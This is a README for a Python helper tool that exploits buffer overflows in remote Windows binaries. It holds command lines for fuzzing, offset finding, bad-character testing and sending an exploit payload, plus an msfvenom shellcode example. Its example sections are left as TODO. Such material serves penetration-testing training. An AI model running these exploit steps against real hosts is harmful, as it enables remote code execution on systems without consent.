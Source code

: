 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=after --exclude=000a
 ./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --badchar=before --exclude=000a --reversejmp=800
```

exploit - Sends malicious payload via buffer overflow
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --reversejmp=800 --shellcode=payload --nops=10
```

## Parameters:
* -h|--help	: Show script usage.
* -n|--norec	: Don't wait for receive message after connect.
* -m|--mode	: Script mode (test|cyclic|write|exploit).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --badchar	: Adds bad chars before (before) or after (after) the content. Used for bad char testing.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --reversejmp	: Size in bytes to jump before the content to inject bad chars or the shell code.
* --shellcode	: Python shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python EXITFUNC=thread -o payload
* --nops		: Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

TODO

## SEH Overwrite example

TODO

## Egg Hunting example

TODO
